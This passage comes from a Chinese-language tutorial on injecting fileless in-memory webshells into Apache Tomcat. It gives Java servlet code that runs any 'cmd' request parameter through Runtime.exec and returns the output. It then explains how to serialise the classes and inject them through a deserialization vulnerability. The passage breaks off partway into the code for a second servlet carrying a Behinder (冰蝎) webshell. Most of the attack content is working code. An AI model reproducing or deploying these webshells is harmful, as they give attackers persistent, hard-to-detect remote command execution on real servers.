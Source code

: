 ```java

    @Override
    public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws ServletException, IOException {
        String cmd = servletRequest.getParameter("cmd");
        if (cmd != null) {
            System.out.println("do Service");
            Process process = Runtime.getRuntime().exec(cmd);
            java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
                    new java.io.InputStreamReader(process.getInputStream()));
            StringBuilder stringBuilder = new StringBuilder();
            String line;
            while ((line = bufferedReader.readLine()) != null) {
                stringBuilder.append(line + '\n');
            }
            servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
            servletResponse.getOutputStream().flush();
            servletResponse.getOutputStream().close();
            return;
        }
    }

    @Override
    public String getServletInfo() {
        return null;
    }

    @Override
    public void destroy() {

    }
}

```
编译生成对应的TomcatEcho.class,TomcatInjectServlet.class，然后通过序列化生成对应的TomcatEcho.ser,TomcatInjectServlet.ser,最后通过反序列化漏洞直接在目标web系统中反序列化最后成功注入

![image.png](Tomcat 内存马无文件攻击.assets/2023_05_19_10_36_50_Imt1x8n7.png)

![image.png](Tomcat 内存马无文件攻击.assets/2023_05_19_10_36_51_Cfw7qBcj.png)



### 注入冰蝎马
在这里使用/xyz用于区别Filter的冰蝎马，实现原理同Filter，只是实现Servlet接口中的service()方法
```java
@Override
public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws ServletException, IOException {
    try {
        System.out.println("do service");
        // 获取request和response对象
        HttpServletRequest request = (HttpServletRequest) servletRequest;
        HttpServletResponse response = (HttpServletResponse) servletResponse;
        HttpSession session = request.getSession();
        //create pageContext
        HashMap pageContext = new HashMap();
        pageContext.put("request", request);
        pageContext.put("response", response);
        pageContext.put("session", session);


        if (request.getMethod().equals("POST")) {
```